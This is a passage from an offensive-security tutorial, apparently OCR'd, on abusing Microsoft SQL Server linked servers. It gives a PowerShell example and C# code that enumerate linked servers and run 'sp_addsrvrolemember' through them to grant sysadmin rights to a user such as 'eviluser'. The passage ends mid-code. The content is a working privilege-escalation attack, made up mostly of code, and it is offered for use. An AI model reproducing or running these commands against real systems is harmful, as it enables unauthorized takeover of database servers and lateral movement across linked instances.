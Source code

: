   - Example:
   ```powershell
   Invoke-SQLLinkedCmd -Instance "ServerName\InstanceName" -Query "EXEC sp_addsrvrolemember 'eviluser', 'sysadmin';" -LinkedInstance "LinkedServerName"
   ```

### Abusing Linked Servers Using C#

If you want to perform these actions using C#, here’s how you might approach it:

#### 1. **Enumerate Linked Servers Using C#**
   - This C# code connects to a SQL Server instance and lists the linked servers.

```csharp
using System;
using System.Data.SqlClient;

class Program
{
    static void Main()
    {
        string connectionString = "Server=ServerName\\InstanceName;Database=master;User Id=your_username;Password=your_password;";

        using (SqlConnection connection = new SqlConnection(connectionString))
        {
            connection.Open();
            string query = "EXEC sp_linkedservers;";

            using (SqlCommand command = new SqlCommand(query, connection))
            {
                using (SqlDataReader reader = command.ExecuteReader())
                {
                    while (reader.Read())
                    {
                        Console.WriteLine("Linked Server: " + reader[0]);
                    }
                }
            }
        }
    }
}
```

#### 2. **Execute Commands on the Linked Server Using C#**
   - If you identify a vulnerable linked server, you can execute commands on it.

```csharp
using System;
using System.Data.SqlClient;

class Program
{
    static void Main()
    {
        string connectionString = "Server=ServerName\\InstanceName;Database=master;User Id=your_username;Password=your_password;";

        using (SqlConnection connection = new SqlConnection(connectionString))
        {
            connection.Open();
            string query = "EXEC ('EXEC sp_addsrvrolemember ''MyNewUser'', ''sysadmin'';') AT LinkedServerName;";

            using (SqlCommand command = new SqlCommand(query, connection))
            {
```